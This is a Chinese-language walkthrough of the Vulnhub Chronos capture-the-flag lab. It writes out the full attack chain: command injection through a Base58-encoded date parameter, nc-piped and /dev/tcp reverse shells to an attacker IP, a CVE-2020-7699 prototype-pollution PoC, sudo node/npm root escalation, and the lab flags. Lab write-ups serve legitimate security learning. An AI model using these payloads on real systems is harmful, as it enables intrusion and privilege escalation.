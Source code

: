 ```yaml
---
title: Chapter3_Medium_Chronos
categories:
- Network_Security
- Vulnhub
- Chapter3
tags:
- Network_Security
- Vulnhub
date: 2024-01-29 11:27:44
---
```


# Chronos 靶场记录

## 1. 过程记录（粗略）

### 1.1 服务发现和外围打点

1. 主机发现，使用新工具：netdiscover，也是基于 arp 的扫描工具：
    `sudo netdiscover -r 网段/实际掩码 - 8`

2. 端口扫描：
    `nmap -Pn -sV 192.168.0.101 -p 1-10000`
    服务如下：
    ![image-20240116113758731](image-20240116113758731.png)

3. 除了目录扫描，还可以查看一下网页源代码，这里发现一个加密脚本：
    ![image-20240116114455084](image-20240116114455084.png)

4. 使用 cyberchef 对代码进行美化，cyberchef 本身也有编码转化等功能：
    ![image-20240116115232477](image-20240116115232477.png)

5. 根据 URL 猜测，试着访问：
    `http://192.168.0.101:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`
    发现权限不够。

6. 通过修改 f12，将域名换成 IP，出现 CORS 跨域错误。因此这里需要修改 host 文件，让这个域名指向目标 IP。
    `sudo vim /etc/hosts`

7. 再次访问，页面更新，但是没有啥交互窗口，因此抓个包看看。
    根据 HTTP 历史，总共有三个包，着重看返回日期的包：
    ![image-20240116141132284](image-20240116141132284.png)
    经过测试发现，当 User-Agent 为 Chronos 时，会返回时间，否则提示 Permission Denied。

8. 其次，尝试猜测 format 的含义，修改内容后，服务端无法返回时间。尝试解码，像是 Base 系列编码，挨个试试，结果是 Base 58 编码：
    ![image-20240116141624700](image-20240116141624700.png)
    这里用的是 CaptfEncoder V2，用 CyberChef 的 magic 让它自动分析编码也省事。

9. 结果是 Linux date 命令的参数，这确实是想不到。测试：
    `9bEW4cq4qengPvFGtzJXEAs1sGpKzYpYvUjwvUngwAmfrVsMwAERK9ox - '+Today is %A, %B %d, %Y %H:%M:%S.' && ls`
    结果返回出来了，说明存在 RCE。

### 1.2 反弹 Shell 与信息收集

1. 查看靶机的 /bin，发现其有 nc，因此用 NC 串联来建立 Shell：
    `7ihptVs1vQRPedsgE9FnpNTWUwH5Ec9aGfvLfeuGgtc21faujqYQsojc89LSM4jDjPBprmKfkco7HEoZxxwPeBjAkbDAe6XXfdkc5oiTjwrn1tJc2pyJj2Y7k6PDpCBXtwCfBCkrap - '+Today is %A, %B %d, %Y %H:%M:%S.' | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555`

2. 拿到 Shell 经过一段信息收集后，发现 imera 用户有个 user.txt 文件，但是没有权限查看，因此需要提权。

### 1.3 初步提权

1. 先查看内核，`'map_write() CAP_SYS_ADMIN' Local Privilege Escalation` 需要 Capabilities 权限，网上查找了一下，发现需要存在 Capabilities 的 CAP_SYS_ADMIN 权限的文件，通过 `getcap -r / 2>/dev/null` 找了一下，发现没有。

2. 内核没法提权，就从 suid 上试试，查找了一下，常见的 suid 程序也基本没有。
     再试试 sudo -l，结果也不行。

3. 回到网站本身，经过信息收集后，发现其有个 chronos-v2。查看后端的 package.json，发现它的 express-fileupload 版本是 1.1.7，恰好比 CVE-2020-7699 Express 模块注入漏洞的版本低，符合利用版本。

4. 再分析他的服务端的代码 server.js，他的服务端开启的服务只在 localhost:8080 端口，外部无法访问。

5. 从 CVE-2020-7699 Express 入手，百度 Google 去找 PoC，最终详情页在：

     > https://github.com/richardgirges/express-fileupload/issues/236
     >
     > https://blog.p6.is/Real-World-JS-1/

6. PoC:
     ```python
     import requests
      
     cmd = 'bash -c "bash -i &> /dev/tcp/192.168.0.2/8888（Kali） 0>&1"'
      
     # pollute
     requests.post('http://127.0.0.1:8080（存在漏洞的服务）', files = {'__proto__.outputFunctionName': (
         None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
      
     # execute command
     requests.get('http://127.0.0.1:8080（存在漏洞的服务）')
     ```

     将该 PoC 在靶机上用 Python3 执行，即可获得 Shell。

7. 此时获得的权限是 imera 的 shell，这时再查看 user.txt 文件。
     拿到第一个 flag：byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

### 1.4 再次提权

1. 利用 sudo -l，发现可以提权：
     ![image-20240116163306479](image-20240116163306479.png)
     可以使用 sudo 来执行 npm 和 node 命令。

2. 使用 node 进行提权：
     `sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

     > https://haiclover.github.io/gtfobins/node/

3. 查看 root 的 txt 文件，第二个 flag：
     YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

4. npm 的提权方式：
     ```bash
     TF=$(mktemp -d)
     echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
     sudo npm -C $TF --unsafe-perm i
     ```

     其他有关命令的提权命令：

     > https://ihsansencan.github.io/privilege-escalation/linux/binaries/

5. LXD 提权：

    > https://www.cnblogs.com/zlgxzswjy/p/14790554.html
    >
    > https://www.cnblogs.com/jason-huawen/p/17016263.html

## 2. 知识点总结

1. 新的主机发现工具 - netdiscover
2. Cyberchef 的使用
3. date 命令参数，这确实想不到，发散思维是吧（
4. CVE-2020-7699 Express 模块注入漏洞
5. node 、lxd 和 npm 提权。
6. 提权方向：
    1. 内核
    2. suid
    3. sudo 与具体命令，具体应用结合
    4. 特殊应用与用户组
